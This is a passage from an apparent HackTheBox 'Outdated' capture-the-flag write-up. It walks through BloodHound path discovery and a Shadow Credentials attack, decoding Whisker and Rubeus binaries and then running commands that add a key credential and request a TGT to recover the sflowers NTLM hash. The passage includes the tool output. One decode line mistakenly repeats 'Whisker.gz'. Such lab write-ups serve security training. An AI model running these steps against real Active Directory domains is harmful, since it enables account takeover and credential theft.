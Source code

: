 Now we have to set up a [BloodHound](https://github.com/BloodHoundAD/BloodHound) tool and import downloaded data.

We have to search our `btables` user, mark him as owned and select `Reachable High Value Targets` button. The BloodHound will make a nice graph to our next user, `sflowers`. 

![Bloodhound's path](/assets/hackthebox/outdated/bloodhound_path.png)

It is vulnerable to [Shadow Credentials attack](https://posts.specterops.io/shadow-credentials-abusing-key-trust-account-mapping-for-takeover-8ee1a53566ab), because we can manipulate target's `msDS-KeyCredentialLink` attribute. 

To perform the attack, we do need 2 tools: [Whisker](https://github.com/eladshamir/Whisker) and [Rubeus](https://github.com/GhostPack/Rubeus). But I wasn't able to determine how to compile C# sources on the target machine, so I've decided to search more comfortable to use tools. And I found a [PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) with the most used Windows/AD binaries in base64-compressed form, so the way was to decode base64 and decompress into binaries. I uploaded them on the host like before.

```zsh
cat Whisker.b64 | base64 -d > Whisker.gz
gzip -d Whisker.gz
cat Rubeus.b64 | base64 -d > Rubeus.gz
gzip -d Whisker.gz
```

First, we have to add our Shadow Credentials with `Whisker`. Then, we just copy and paste the given command to execute `Rubeus` and get a `NTLM` hash of sflowers user.

```powershell
./Whisker.exe add /target:sflowers
<Skipped Whisker output>

./Rubeus.exe asktgt /user:sflowers /certificate:<Base64 certificate> /password:"<Password>" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=sflowers 
[*] Building AS-REQ (w/ PKINIT preauth) for: 'outdated.htb\sflowers'
[*] Using domain controller: 172.16.20.1:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

  <base64-cert>

  ServiceName              :  krbtgt/outdated.htb
  ServiceRealm             :  OUTDATED.HTB
  UserName                 :  sflowers
  UserRealm                :  OUTDATED.HTB
  StartTime                :  10/27/2022 3:21:21 AM
  EndTime                  :  10/27/2022 1:21:21 PM
  RenewTill                :  11/3/2022 3:21:21 AM
  Flags                    :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType                  :  rc4_hmac
  Base64(key)              :  SttuGPI9lPahkYurkK8WUA==
  ASREP (key)              :  C05C572660D227E2469ED5A20B141693

[*] Getting credentials using U2U

```